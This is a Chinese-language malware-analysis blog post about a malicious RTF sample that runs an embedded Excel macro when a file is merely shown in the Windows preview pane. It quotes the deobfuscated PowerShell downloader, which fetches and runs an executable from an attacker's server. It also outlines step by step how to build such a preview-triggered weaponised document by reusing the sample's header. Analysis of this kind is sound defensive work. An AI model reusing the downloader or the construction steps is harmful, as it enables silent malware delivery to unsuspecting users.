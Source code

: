 ```yaml
---
title: '样本分析 - 预览界面触发宏执行'
layout: post
tags:
  - 病毒分析
category: 信息安全-样本分析
---
```

##样本来源

大约一个月前，国外安全团队Bromium捕获了一个新的恶意样本，并从中发现了一种新的恶意文件攻击技术，该技术能够在用户没有打开包含恶意软件的文件的情况下，也能够触发恶意指令的执行。该技术主要是在Windows资源管理器或Outlook中选择了相应的文件时，右侧的预览窗口对文件进行了预览显示触发了攻击。

 

样本哈希：3FEA120D39B1F0B63DC6A73D0EE2D197169FC765DD5B1EAFC5658C6799D4B00F

##攻击技术复现

拿到样本后，我们就对样本进行了攻击的复现，根据作者说的，我们在选定了文件之后，文件的预览窗口就能触发执行。

国外研究团队给的图：

![img](http://ww3.sinaimg.cn/large/006tNc79gy1g3lo2qfkqvj30bj05d3yr.jpg)

本地复现的图：（Powershell并没有在预览窗口出现）

![img](http://ww2.sinaimg.cn/large/006tNc79gy1g3lo2mib2ej30bh03j0t1.jpg)

该攻击貌似只能对Windows 10系统才能生效，这边本地测试了Windows 7系统，Windows 7的预览界面貌似不能显示office类的文档，显示的是没有预览。

##样本分析

拿着刚到手的样本，我们就对其展开了分析，刚复现完攻击的时候，心里都是各种牛逼呀，想着居然还有那么高端的操作，对攻击的定位感觉都是系统级的溢出漏洞了。压制住内心的膜拜，还是先依据常规的分析方式，对RTF文件进行一波解析先。

###RTF解析

我们立马就开始了对这个样本进行了的RTF数据的解析，解析结果发现，样本里面嵌套了5个excel对象，而且发现每个对象的数据指纹都是一样的。证明这是5个一样的对象。然后没有发现明显的溢出漏洞利用的迹象。

![img](http://ww1.sinaimg.cn/large/006tNc79gy1g3lo2mbj99j30bj0eadhn.jpg)

 

![img](http://ww1.sinaimg.cn/large/006tNc79gy1g3lo2sfyuuj30bj03d0t6.jpg)

 

###OLE分离

在获取分离出来的文件之后，我们对分离出来的文件进行分析。发现解析出来的Excel对象嵌入了VB的恶意代码。

 

嵌套了代码的：

![img](http://ww3.sinaimg.cn/large/006tNc79gy1g3lo2p0ve8j30bj06zgmc.jpg)

 

###获取VB代码       

![img](http://ww2.sinaimg.cn/large/006tNc79gy1g3lo2rubsbj30bj0eagnh.jpg)

###分析混淆代码

虽然作者混淆了那么多无用的代码，但是在看了代码之后，我们还是能很快得到了恶意代码的原貌，最后解析出来的是使用VB运行了一段powershell。大致代码为（直接）：

 

\1.     CreateObject(WScript.Shell).exec “powershell”  

 

然后，我们获取到的Powershell也被做了的混淆，我们对混淆的powershell进行了分析，发现这是一个Downloader。大致代码为（粗暴）：

 

\1.      DownloadFile('https://igyygyigus.com/new/smscscript090002000.exe', 'C:\Users\Administrator\AppData\Roaming\\b1bbb65.exe')  

\2.     Start-Process -Filepath C:\Users\Administrator\AppData\Roaming\\b1bbb65.exe; 

 

通过对Powershell的解密，我们可以发现攻击者服务器，我们想对黑客的服务器样本进行追溯，但是发现服务器已经关掉了，并没有获取到上面的样本。



##攻击技术利用

看到新型的攻击手法，在研究完该样本的利用方式之后，作为尽职的蓝队一员，就是该纳入自己的囊下了。我们对样本的OLE对象的解析中发现，样本是通过使用\ objupdate来嵌入一个Excel对象，然后就能使在预览界面下，该Excel就能够得到触发。

另外，\ objupdate控件的使用其实不是第一次出现了，在CVE-2017-0199漏洞的攻击手法中，也利用了\ objupdate来触发Hta实现攻击。

 

![1](http://ww2.sinaimg.cn/large/006tNc79gy1g3lo2rd35mj30bj05iwfa.jpg)

 

下面，我们就可以来构建自己的预览触发样本了。

 

（1）准备一个附带有VBA的Excel文件

通过在Excel中嵌入宏，简单的构建。

![img](http://ww1.sinaimg.cn/large/006tNc79gy1g3lo2ngagrj30bj02lweo.jpg)

 

（2）将其转换成RTF格式

转换的方式多种多样，在网上以及office本身也可以进行转换。

![img](http://ww1.sinaimg.cn/large/006tNc79gy1g3lo2pg27kj309v05tglt.jpg)

（3）提取其中的数据，并添加必要的头部

提取出来的数据是objdata那一段的

![img](http://ww1.sinaimg.cn/large/006tNc79gy1g3lo2ny6qkj30bj03cdgh.jpg)

​       

嵌入的头直接拿恶意样本的来用就可以了，标红的就是头，往后是拼接的数据。

![img](http://ww4.sinaimg.cn/large/006tNc79gy1g3lo2qv7r1j30bj01j3yk.jpg)

 

（4）嵌入你需要的RTF文件中

植入的位置选择后面，植入后随着office版本的不同，显示的效果还不一样，在office2007的版本下，显示不出文件，但是能够触发，在office2010下，显示是能够正常，植入尾部的话，会显示不起眼的几小横。

![img](http://ww3.sinaimg.cn/large/006tNc79gy1g3lo2pxlnej30bj023glq.jpg)

​       

（5）测试文件的可用性

最后，我们自然要来测试一下我们的效果。

![img](http://ww2.sinaimg.cn/large/006tNc79gy1g3lo2mzsxoj30bh037dg3.jpg)